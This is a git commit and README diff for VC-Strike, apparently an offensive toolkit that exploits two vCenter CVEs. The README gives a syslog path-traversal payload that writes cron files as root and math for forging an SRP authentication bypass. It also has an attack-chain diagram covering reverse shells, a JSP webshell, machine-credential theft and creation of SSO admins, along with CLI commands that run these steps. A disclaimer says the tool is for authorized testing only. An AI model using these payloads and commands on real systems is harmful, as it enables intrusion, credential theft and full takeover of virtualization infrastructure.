

docs: polished README — vulnerability deep-dive, attack chain, screenshot showcase
- centered hero screenshot + 9-tab gallery grid
- CVE-2026-59310: dynamic-template traversal walkthrough with payload
- CVE-2026-59309: SRP A=N → S=0 → K=SHA1(b"") math walkthrough
- attack chain diagram (syslog RCE → creds → SRP takeover → admin)
- badges: release / CI / python / platform / license / stars
- kept: quick start, docs, work conventions, packaging, run log,
  privacy notice, security boundary, legal

diff --git a/README.md b/README.md
@@ -1,50 +1,145 @@
 <div align="center">
 
-# VC-Strike
+<img src="screenshots/gui-targets.png" alt="VC-Strike 主界面" width="88%">
 
-**VMware vCenter 一体化授权渗透测试套件**
+[![Release](https://img.shields.io/github/v/release/chu0119/vc-strike?label=%E7%89%88%E6%9C%AC&color=blue)](https://github.com/chu0119/vc-strike/releases)
+[![CI](https://github.com/chu0119/vc-strike/actions/workflows/ci.yml/badge.svg)](https://github.com/chu0119/vc-strike/actions/workflows/ci.yml)
+[![Python](https://img.shields.io/badge/Python-3.8%2B-informational)](https://www.python.org)
+[![Platform](https://img.shields.io/badge/Platform-Windows-lightgrey)](https://github.com/chu0119/vc-strike)
+[![License](https://img.shields.io/badge/License-MIT%20%2B%20%E6%8E%88%E6%9D%83%E9%99%90%E5%AE%9A-green)](LICENSE)
+[![Stars](https://img.shields.io/github/stars/chu0119/vc-strike?style=social)](https://github.com/chu0119/vc-strike/stargazers)
 
-`CVE-2026-59310` 未授权 root RCE · `CVE-2026-59309` 未授权 SRP 认证绕过
+**九页签一体化 · 从指纹到交付的全流程闭环**
 
-GUI + CLI · 零第三方依赖 · Python 3.8+
+**九页签一体化 · 从指纹到交付的全流程闭环**
 
-[功能](#-功能) · [快速开始](#-快速开始) · [攻击链](#-攻击链) · [检测与加固](docs/检测与加固.md) · [安全边界](#%EF%B8%8F-安全边界) · [法律声明](#-法律声明)
+| | |
+|:---:|:---:|
+| <img src="screenshots/gui-59310.png" alt="CVE-2026-59310" width="98%"> <img src="screenshots/gui-59309.png" alt="CVE-2026-59309" width="98%"> | <img src="screenshots/gui-chain.png" alt="一键打通" width="98%"> <img src="screenshots/gui-vops.png" alt="vSphere 管理" width="98%"> |
+| **② CVE-2026-59310 利用** | **⑧ 一键打通 / ⑨ vSphere 管理** |
+
+<sub>更多页签截图见 [screenshots/](screenshots/)：③ 目录接管 · ④ C2 会话 · ⑤ 后渗透 · ⑥ 清理中心 · ⑦ 检测加固</sub>
 
 </div>
 
----
+## 🧠 漏洞原理
 
-> ⚠ **仅供已获书面授权的渗透测试、漏洞验证与防御研究使用。**
-> 对未授权目标使用本工具所产生的一切后果由使用者自行承担。
+两个漏洞都无需任何凭据，仅需网络可达即可利用——这正是 CVSS 9.8 的含义。
 
-## 📌 漏洞概要
+### CVE-2026-59310 — vCenter Syslog 目录遍历 → root RCE
 
-| | CVE-2026-59310 | CVE-2026-59309 |
-|---|---|---|
-| 组件 | vCenter rsyslog 动态路径模板 | vmdird（Cyrus SASL SRP 插件 `libsrp.so`）|
-| 类型 | 路径穿越 → 任意文件写 → root RCE | SRP 认证绕过（`A ≡ 0 (mod N)` 未校验）|
-| 前置条件 | UDP/TCP 514 可达，**无需凭据** | TCP 389 / 636 / 2020 可达，**无需凭据** |
-| CVSS 3.1 | 9.8 Critical | 9.8 Critical |
-| 修复版本 | 9.1.0.0300 / 9.0.2.0100 (Build 25629525) / 8.0 U3k / 8.0 U2f | 同左（VMSA-2026-0006）|
+vCenter 内置 rsyslog 服务接收 ESXi 主机日志，其动态路径模板将 RFC5424 报文头
+字段**未净化**地拼接进落盘路径：
 
-**VC-Strike** / 指纹 ｜ 利用 ｜ 拿权 ｜ 后渗透 ｜ C2 会话 ｜ 清理 ｜ 检测加固，一仓打尽。
+```
+$template rsyslogadminLoc, "/var/log/vmware/%app-name%/%app-name%-syslog.log"
+```
 
-## ✨ 功能
+攻击者构造 APP-NAME 携带遍历序列的报文即可逃出日志目录：
+
+```
+<134>1 <时间戳> h rsyslog/../../../../../etc/cron.d/pwn 1 ID47 - <载荷>
+              ~~~~~~~~~~~~~~~~~~~~~~~
+              APP-NAME = rsyslog/../../../../../etc/cron.d/pwn
+              → 落盘 /etc/cron.d/pwn-syslog.log（root 属主，内容完全可控）
+```
+
+三个条件缺一不可，而 vCenter 出厂默认全部满足：
+1. 动态模板 `%app-name%` 拼接（目录名 + 文件名双注入点）
+2. 选择器 `:app-name, startswith, "rsyslog"` 仅前缀匹配——`rsyslog/…` 即命中
+3. `$EscapeControlCharactersOnReceive off` 允许换行穿透，控制落盘文件的行结构
+
+**关键绕过**：pmrfc3164 解析器在 `/` 处截断 APP-NAME（无法遍历），但同一端口
+**同时接受 RFC5424**——pmrfc5424 对 APP-NAME 无字符白名单，遍历序列完整保留。
+这也是修复版 `secpath-replace` 要补的核心点。
+
+### CVE-2026-59309 — vmdird SRP 认证绕过 → 任意身份目录接管
+
+vmdird 的 LDAP SASL SRP 实现（Cyrus SASL `libsrp.so`）未按 RFC5054 §3.1
+校验客户端公值 **A ≢ 0 (mod N)**。发送 **A = N**：
+
+```
+u = H(A | B)                    ← 公开
+S = (v^u · A)^b mod N = 0       ← A ≡ 0 (mod N)，与口令验证元 v 无关
+K = H(bytes(S)) = SHA1(b"")     ← BN_bn2bin(0) 输出空串 → 公开常量
+M1 = H(Ng ⊕ ‖ H(U) ‖ s ‖ A ‖ B ‖ K ‖ H(I) ‖ H(L))
+     ↑ 全部输入公开或自选 → 可伪造
+```
+
+服务端比对 M1 一致即认证通过——以任意**存在**的身份获得 SSO 目录读写。
+修复版增加 `BN_div` 校验并返回
+`Illegal value for 'A' (A mod N == 0)`（VC-Strike 识别该报错并判定已修复）。
+
+> 📖 完整协议细节（SRP 三步报文格式、M1/M2 构造、AES-128-OFB+HMAC-SHA1
+> 安全层逐字段对照 cyrus-sasl 2.1.26 `plugins/srp.c`）见
+> [docs/漏洞分析.md](docs/漏洞分析.md)。
+
+## ⛓ 攻击链
+
+```
+        ┌─────────────────────────────────────────────────────────┐
+        │  目标 vCenter（UDP/514 可达即可，全程无凭据）             │
+        └──────────────────────────┬──────────────────────────────┘
+                                   │
+     ┌─────────────────────────────┴──────────────────────────────┐
+     │ CVE-2026-59310                                             │
+     │ RFC5424 APP-NAME 路径穿越 → 任意路径 root 写入              │
+     │   ├─ /etc/cron.d/<x>-syslog.log（一次性自毁 cron）          │
+     │   │    └─ crond 以 root 执行（约 60s）                      │
+     │   │         ├─ 命令输出 → htdocs → VAMI:5480 HTTP 回显      │
+     │   │         ├─ 反弹 shell（bash/python，base64 封装）       │
+     │   │         └─ JSP 落地 perfcharts statsreport              │
+     │   └─ 备用向量：HOSTNAME = ../ × 16（esxLoc 模板）           │
+     └──────────────────────────┬──────────────────────────────┘
+                                │
+     ┌──────────────────────────┴──────────────────────────────┐
+     │ 凭据收获                                                 │
+     │  lwregshell → dcAccountDN / dcAccountPassword（机器账户）│
+     │  + SSO 域名（dcAccountDN 推导）                          │
+     └──────────────────────────┬──────────────────────────────┘
+                                │
+     ┌──────────────────────────┴──────────────────────────────┐
+     │ CVE-2026-59309                                          │
+     │ SASL SRP：A=N → S=0 → K=SHA1("") → 伪造 M1 → bind 成功  │
+     │  → 任意身份读写 SSO 目录                                 │
+     └──────────────────────────┬──────────────────────────────┘
+                                │
+                    ┌───────────┴────────────┐
+                    │ 新建账户 → 加入 Administrators│
+                    │ → bind 回验 + 组成员确认      │
+                    │ → 交付可登录 /ui 的管理员      │
+                    └────────────────────────┘
+```
+
+## 🧰 功能
 
 | 模块 | 能力 |
 |---|---|
 | **指纹** | 批量探测 443/5480/514/1514/389/636/2020、API 版本、rootDSE SASL 机制；CSV 报告（仅探测不利用）|
 | **59310 利用** | 非破坏写入验证 · 任意文件写（APP-NAME/HOSTNAME 双向量+报文预览）· RCE + VAMI HTTP 回显 · RCE 落盘 · 反弹 shell · JSP WebShell 植入 |
 | **59309 利用** | SRP 机制探测 · **认证绕过**（A=N → K=SHA1("")）· SSO 用户/管理员组枚举 · 创建 SSO 管理员 · 重置任意账户密码 · LDAP 查询控制台 |
-| **C2** | 多端口监听 · 多会话管理（GUI 会话表 / CLI REPL）· 交互直通 · exec 回显 · **上传/下载**（shell 通道 base64 分块）|
-| **⑧ 一键打通** | 只填 IP：59310 RCE → 机器账户/SSO 域提取 → 目录接管（机器账户 bind，59309 SRP 降级）→ 新建管理员 → bind 回验+组成员确认 → 交付可登录 /ui 的账户；三路自动降级；交付后可自动做 **vSphere 只读资产盘点**（REST API），支持导出 Markdown 测试报告 |
-| **后渗透** | 系统信息 · vmdir 机器账户（dcAccountDN/Password）提取 · SSO 域名读取 · 网络/服务/计划任务盘点 · 59310 入侵痕迹快扫 |
-| **清理** | 聚合本次会话全部落点 → 生成/复制清理命令 |
+| **⑧ 一键打通** | 只填 IP：59310 RCE → 机器账户/SSO 域提取 → 目录接管（机器账户 bind，59309 SRP 降级）→ 新建管理员 → bind 回验+组成员确认 → 交付可登录 /ui 的账户；三路自动降级 |
+| **⑨ vSphere 管理** | 用交付账户经官方 REST API 只读盘点（VM/主机/存储/集群/网络）；单台电源操作（VM-ID 确认+二次弹窗）；VM 导出（OVF/OVA，封装官方 ovftool，开机 VM 自动关机/恢复）|
+| **C2** | 多端口监听 · 多会话管理（GUI 会话表 / CLI REPL）· 交互直通 · exec 回显 · **上传/下载**（shell 通道 base64 分块 + md5 校验）|
+| **后渗透** | 系统信息 · vmdir 机器账户提取 · SSO 域名读取 · 网络/服务/计划任务盘点 · 入侵痕迹快扫 |
+| **清理** | 全动作自动登记 → 一键生成清理命令 / 一键清除目标残留（经 RCE）|
 | **检测加固** | 版本自查 · rsyslog 危险模板排查 · 入侵痕迹排查 · IOC · 缓解措施 |
 
-技术实现要点：BER/LDAP 从零自实现；Cyrus SASL SRP 报文、M1/M2 构造、
-AES-128-OFB + HMAC-SHA1 安全层**逐字段对照 cyrus-sasl 2.1.26 `plugins/srp.c`**；
-内置纯 Python AES-128（通过 FIPS-197 官方测试向量）。
+## 📸 界面
+
+| 页签 | 说明 |
+|---|---|
+| <img src="screenshots/gui-targets.png" width="420"> | **① 目标与指纹** — 批量探测、CSV 导出、右键菜单（设为当前/单台指纹/复制/移除），列宽可拖拽 |
+| <img src="screenshots/gui-59310.png" width="420"> | **② CVE-2026-59310 利用** — 写入验证 / 任意文件写 / RCE 回显 / 反弹 / WebShell |
+| <img src="screenshots/gui-59309.png" width="420"> | **③ CVE-2026-59309 利用** — 绕过、枚举、建管、重置、删除、LDAP 控制台 |
+| <img src="screenshots/gui-c2.png" width="420"> | **④ C2 / 反弹 Shell** — 多会话表 + 实时终端 + 上传下载 |
+| <img src="screenshots/gui-postex.png" width="420"> | **⑤ 后渗透** — 七个一键动作 + 自定义命令，凭据自动入账 |
+| <img src="screenshots/gui-cleanup.png" width="420"> | **⑥ 清理中心** — 动作自动登记 → 一键生成清理命令 / 一键清除目标残留 |
+| <img src="screenshots/gui-detect.png" width="420"> | **⑦ 检测与加固** — 防御侧自查 / IOC / 缓解措施 |
+| <img src="screenshots/gui-chain.png" width="420"> | **⑧ 一键打通** — 只填 IP 全自动交付管理员，Markdown 报告导出 |
+| <img src="screenshots/gui-vops.png" width="420"> | **⑨ vSphere 管理** — VM 清单（排序/右键菜单）、只读检查、电源操作、导出 OVA |
+
+<sub>截图摄于 150% DPI（1920×1040 逻辑窗口）。完整 9 页签见 [screenshots/](screenshots/)。</sub>
 
 ## 🚀 快速开始
 
@@ -69,9 +164,6 @@ python -m vcstrike exec59310 10.0.0.1 -c 'id; cat /etc/vmware-release'
 python -m vcstrike webshell 10.0.0.1
 python -m vcstrike revshell 10.0.0.1 --lhost 10.0.0.5 --lport 4444
 
-# C2 多会话控制台
-python -m vcstrike listen --ports 4444,8443
-
 # CVE-2026-59309：探测 → 绕过 → SSO 目录操作
 python -m vcstrike check59309 10.0.0.1 --bypass
 python -m vcstrike ldap59309 10.0.0.1 enum-users
@@ -82,53 +174,29 @@ python -m vcstrike postex 10.0.0.1 machine-creds
 
 # 一键打通：59310/59309 联动，交付可登录 /ui 的 SSO 管理员
 python -m vcstrike chain 10.0.0.1
+
+# vSphere 管理（用交付账户）
+python -m vcstrike vops 10.0.0.1 --user 'x@vsphere.local' --pass 'xxx' --action vms
 ```
 
-## ⛓ 攻击链
+## 🧾 运行日志（测试后请回传）
 
-```
-【CVE-2026-59310】
-  RFC5424 APP-NAME="rsyslog/../../../../../<path>"
-    └→ 动态模板逃逸 → 任意路径 root 写
-        ├→ /etc/cron.d/<x>-syslog.log（换行穿透，cron 行落第 0 列）
-        │    └→ crond 每分钟以 root 执行
-        │         ├→ 输出重定向 /opt/vmware/share/htdocs/ → VAMI :5480 HTTP 回显
-        │         ├→ 反弹 shell（bash /dev/tcp / python3）→ C2 会话
-        │         └→ cp 落地 JSP → perfcharts statsreport WebShell
-        └→ 备用向量：HOSTNAME="../"×16（esxLoc 模板）
+每次运行自动在 **exe/脚本同目录** 生成日志：`vc-strike-<gui|cli>-<时间戳>.log`
 
-【CVE-2026-59309】
-  LDAP SASL bind(mech=SRP)
-    └→ 服务端下发 N,g,s,B,L
-        └→ 客户端发 A=N（未校验 A mod N == 0）
-            └→ 服务端 S=0 → K=SHA1("") 公开常量
-                └→ 伪造 M1（输入全部公开）→ bind 成功
-                    ├→ 任意身份读写 SSO 目录
-                    ├→ 创建 SSO 管理员 / 重置任意账户密码
-                    └→ SASL 安全层（AES-128-OFB+HMAC-SHA1）客户端镜像
+- 内容：环境头（版本/系统/DPI 缩放）、全部操作记录与结果、异常完整堆栈、
+  C2 会话原始流（ANSI 已剥离）、结束标记
+- GUI 底部日志栏有 **"打开日志目录"** 按钮可直接定位
+- ⚠ **隐私约定**：日志含目标凭据（如提取到的机器账户密码）与 C2 会话内容，
+  命令行中的 `--pass/--password` 值会自动掩码。**回传前请自行审阅清洗**，
+  确认无超出授权范围的敏感信息
+- **测试结束后直接把日志文件发给维护者**，即可基于真实运行数据做
+  二次加固与修复（无需复述操作过程）
 
-【组合】59310 RCE → lwregshell 提取机器账户 → 直连 LDAPS / 横向
-        59309 建管 → 登录 /ui → 配合 WebShell / statsreport
-```
+## 📖 文档
 
-详细原理：[docs/漏洞分析.md](docs/漏洞分析.md)
-
-## 🛡 安全边界（有意不实现）
-
-本工具面向**授权测试**，演示止步于权限与影响证明（root RCE、WebShell、
-目录管理员、凭据提取）。以下能力**不会**实现，请勿提 issue：
-
-- ESXi 勒索 / 虚拟机破坏类操作
-- 隐蔽持久化（开机自启、beacon 心跳、断线自动重连）
-- 免杀 / EDR 规避 / 流量伪装
-
-## ⚠ 关于代码中的 SHA-1 / AES-OFB / 自签 TLS
-
-这些是**被测协议的既定构成**：CVE-2026-59309 的会话密钥 K 恒等于
-`SHA1("")`，SASL 安全层固定 AES-128-OFB + HMAC-SHA1（服务端 srp.c 硬编码），
-vCenter 出厂自签证书。它们不是本工具自身的安全选择，替换将导致协议
-不兼容、利用必然失败（详见源码 `[协议保真]` 注释块与
-[docs/漏洞分析.md](docs/漏洞分析.md)）。
+- [使用手册（GUI/CLI/C2 全参数）](docs/使用手册.md)
+- [漏洞分析（协议级细节）](docs/漏洞分析.md)
+- [检测与加固（防御视角）](docs/检测与加固.md)
 
 ## 🗂 工作约定（维护守则）
 
@@ -162,24 +230,22 @@ python -m PyInstaller --noconfirm --clean --onefile --windowed --name VC-Strike-
 python -c "import hashlib,glob;[print(hashlib.sha256(open(f,'rb').read()).hexdigest(), f) for f in glob.glob('dist/*')]"
 ```
 
-## 🧾 运行日志（测试后请回传）
+## 🛡 安全边界（有意不实现）
 
-每次运行自动在 **exe/脚本同目录** 生成日志：`vc-strike-<gui|cli>-<时间戳>.log`
+本工具面向**授权测试**，演示止步于权限与影响证明（root RCE、WebShell、
+目录管理员、凭据提取）。以下能力**不会**实现，请勿提 issue：
 
-- 内容：环境头（版本/系统/DPI 缩放）、全部操作记录与结果、异常完整堆栈、
-  C2 会话原始流（ANSI 已剥离）、结束标记
-- GUI 底部日志栏有 **"打开日志目录"** 按钮可直接定位
-- ⚠ **隐私约定**：日志含目标凭据（如提取到的机器账户密码）与 C2 会话内容，
-  命令行中的 `--pass/--password` 值会自动掩码。**回传前请自行审阅清洗**，
-  确认无超出授权范围的敏感信息
-- **测试结束后直接把日志文件发给维护者**，即可基于真实运行数据做
-  二次加固与修复（无需复述操作过程）
+- ESXi 勒索 / 虚拟机破坏类操作
+- 隐蔽持久化（开机自启、beacon 心跳、断线自动重连）
+- 免杀 / EDR 规避 / 流量伪装
 
-## 📖 文档
+## ⚠ 关于代码中的 SHA-1 / AES-OFB / 自签 TLS
 
-- [使用手册（GUI/CLI/C2 全参数）](docs/使用手册.md)
-- [漏洞分析（协议级细节）](docs/漏洞分析.md)
-- [检测与加固（防御视角）](docs/检测与加固.md)
+这些是**被测协议的既定构成**：CVE-2026-59309 的会话密钥 K 恒等于
+`SHA1("")`，SASL 安全层固定 AES-128-OFB + HMAC-SHA1（服务端 srp.c 硬编码），
+vCenter 出厂自签证书。它们不是本工具自身的安全选择，替换将导致协议
+不兼容、利用必然失败（详见源码 `[协议保真]` 注释块与
+[docs/漏洞分析.md](docs/漏洞分析.md)）。
 
 ## 🤝 贡献与反馈
 
